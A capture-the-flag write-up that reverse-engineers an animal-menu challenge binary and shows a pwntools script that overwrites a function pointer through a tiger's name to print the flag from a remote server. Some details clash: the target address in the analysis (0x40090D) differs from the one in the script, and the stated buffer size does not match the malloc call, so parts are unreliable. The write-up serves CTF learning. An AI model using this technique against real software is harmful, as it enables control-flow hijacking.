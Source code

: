 Here we have a program with which we can create three types of animals (lion, tiger, bear).
The animals can be created with a menu and each animal has a type and a name.
A maximum of 4 animals can be created and animals can also be deleted. 

If we run the program we get something like :

	Welcome! I don't think we're in Kansas anymore.
	We're about to head off on an adventure!
	Select some animals you want to bring along.

	Menu Options:
	1: Bring a lion
	2: Bring a tiger
	3: Bring a bear
	4: Delete Animal
	5: Exit

	Enter your choice:
	$ 1
	Choose the type of lion you want:
	1: Congo Lion
	2: Barbary Lion
	$ 1
	Enter name of lion:
	$ SomeLionName

	Menu Options:
	1: Bring a lion
	2: Bring a tiger
	3: Bring a bear
	4: Delete Animal
	5: Exit

	...


If we open the code with IDA, we find this function to print the flag :

	__int64 l33tH4x0r()
	{
	  FILE *stream; // ST08_8@1
	  char s; // [sp+10h] [bp-40h]@1
	  __int64 v3; // [sp+48h] [bp-8h]@1

	  v3 = *MK_FP(__FS__, 40LL);
	  stream = fopen("flag.txt", "r");
	  fgets(&s, 50, stream);
	  puts(&s);
	  fflush(stdout);
	  fclose(stream);
	  return *MK_FP(__FS__, 40LL) ^ v3;
	}

We find in the assembly that its address is 0x40090D which will be useful later.

We also find that in the makeStuff function there is a call to pwnMe() :

	int makeStuff()
	{
	  int result; // eax@10
	  unsigned int v1; // [sp+Ch] [bp-4h]@1

	  puts("Enter your choice:");
	  fflush(stdout);
	  __isoc99_scanf(4198360LL, &v1);
	  getchar();
	  if ( v1 == 3 )
	  {
	    result = makeBear();
	  }
	  else if ( (signed int)v1 > 3 )
	  {
	    if ( v1 == 5 )
	      exit(0);
	    if ( (signed int)v1 >= 5 )
	    {
	      if ( v1 == 4919 )
	        pwnMe();       // <------- HERE -------
	LABEL_16:
	      printf("Invalid choice :(   %d\n", v1);
	      exit(0);
	    }
	    result = deleteAnimal();
	  }
	  else if ( v1 == 1 )
	  {
	    result = makeLion();
	  }
	  else
	  {
	    if ( v1 != 2 )
	      goto LABEL_16;
	    result = makeTiger();
	  }
	  return result;
	}

This tells us that to call pwnMe, we need to choose the Menu Option 4919.

The pwnMe function looks like that :

	void __noreturn pwnMe()
	{
	  __int64 v0; // [sp+0h] [bp-10h]@1

	  v0 = (__int64)*(&pointers + bearOffset);
	  if ( *(_DWORD *)(v0 + 20) == 3 )
	    (*(void (**)(void))v0)();
	  exit(0);
	}

So if the 20th byte after the address v0 (v0[20]) is 3, the program calls the function
at the address written at v0 (the first word, so 4 bytes of v0).

If we can replace the first word of v0 with 0x40090D (the address of l33tH4x0r),
we can print the flag.

If we don't create any bear, v0 will point at the buffer at the first address in pointers.


Now let's look at makeTiger : 
	__int64 makeTiger()
	{
	  void *v0; // ST08_8@1

	  v0 = malloc(0x18uLL);
	  *((_DWORD *)v0 + 5) = pickTigerType(24LL);
	  puts("Enter name of tiger:");
	  fflush(stdout);
	  __isoc99_scanf(4198421LL, v0);
	  *(&pointers + next) = v0;
	  return (unsigned int)(next++ + 1);
	}

We see that when we create a Tiger, a buffer of 32 bytes is allocated and
the 5th word of the buffer is the tigerType.

The first address in pointers is then the address of this buffer because next is 0 initially.

So if we want to pwnMe to work, we need to choose 3 as the Tiger Type (the fifth word will be three,
so the 20th byte after &pointers will be also 3 and the function in v0 will be called).

We can also see that the name writes directly at the beginning of this buffer, so we can directly write
the address to jump to (0x40090D) as the name. This will work even if 0D is a carriage return, because
scanf accepts these characters. If the function would be fgets, we would have to jump a little further, 
let's say 0x40090E.

We can retrieve the flag with this python script :

	from pwn import *

	# the address to jump to to print the flag
	l33tH4x0r_addr = 0x4008DD

	# remote interaction with the program
	with remote('104.155.227.252', 25050) as p:
		print p.recvuntil('choice:')
		p.sendline('2') # tiger
		print p.recvuntil('want:')
		p.sendline('3') # type
		print p.recvuntil('tiger:')
		p.sendline(p64(l33tH4x0r_addr))

		# pwnMe
		print p.recvuntil('choice:')
		p.sendline('4919')

		print p.recvall()